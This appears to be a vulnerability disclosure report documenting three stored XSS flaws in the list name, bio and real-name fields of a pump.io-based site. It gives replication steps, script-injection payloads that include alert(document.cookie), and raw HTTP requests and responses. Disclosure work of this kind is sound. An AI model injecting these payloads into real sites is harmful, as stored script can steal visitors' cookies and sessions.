 
### Stored XSS #1

https://datamost.com/<USERNAME>/lists

- Vulnerable parameter "Name"

To Replicate Findings:
  

1. Login to account
2. Go to Lists page
3. Select New List
4. Select "Name" 
4. Add XSS payload "><script>alert(document.cookie)</script> 


```
// HTTP POST request with XSS payload

POST /api/user/<USERNAME>/feed/minor HTTP/1.1
Host: datamost.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:106.0) Gecko/20100101 Firefox/106.0
[...]

{"verb":"create","object":{"objectType":"collection","objectTypes":["person"],"displayName":"\"><script>alert(document.cookie)</script>","content":"test"}}


// HTTP response showing unsanizited XSS payload

HTTP/1.1 200 OK
X-Powered-By: Express
Vary: X-HTTP-Method-Override, Accept-Encoding
Server: pump.io/5.1.0 express/4.16.2 node.js/v6.17.1
[...]

{"verb":"create","object":{"objectType":"collection","objectTypes":["person"],"displayName":"\"><script>alert(document.cookie)</script>","content":";"test",
[...]
```
  

### Stored XSS #2

https://datamost.com/main/settings

- Vulnerable parameter "Bio"

To Replicate Findings:

1. Login to account
2. Go to settings page
3. Select "Bio" 
4. Add XSS payload "><script>alert(`xss`)</script>
  

```
// HTTP POST request with XSS payload

PUT /api/user/test1231123123123/profile HTTP/1.1
Host: datamost.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:106.0) Gecko/20100101 Firefox/106.0
[...]

"pump_io":{"followed":false},"location":{"objectType":"place","displayName":"\"test"},"summary":"\"><script>alert(`bio_xss`)</script>"[...]


// HTTP response showing unsanitized XSS payload

HTTP/1.1 200 OK
X-Powered-By: Express
Server: pump.io/5.1.0 express/4.16.2 node.js/v6.17.1
[...]

"location":{"objectType":"place","displayName":"\"><script>alert(`bio_xss`)</script>"}
[...]


// HTTP GET request to feed page

GET /api/user/<USERNAME>/feed/minor?since=<URL_MODIFIED> HTTP/1.1
Host: datamost.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:106.0) Gecko/20100101 Firefox/106.0
[...]


// HTTP response showing unsanitized XSS payload

"location":{"objectType":"place","displayName":"\"><script>alert(`xss`)</script>"}
[...]
```

  
  
### Stored XSS #3

https://datamost.com/main/settings


- Vulnerable parameter "Real Name"

To Replicate Findings:

1. Login to account
2. Go to settings page
3. Select "Real Name"
4. Add XSS payload "><script>alert(`xss`)</script>


```
// HTTP POST request with XSS payload

PUT /api/user/test1231123123123/profile HTTP/1.1
Host: datamost.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:106.0) Gecko/20100101 Firefox/106.0
[...]


{"preferredUsername":"test1231123123123","url":"https://datamost.com/test1231123123123","displayName":"\"><script>alert(1)</script>"
[...]
```
  

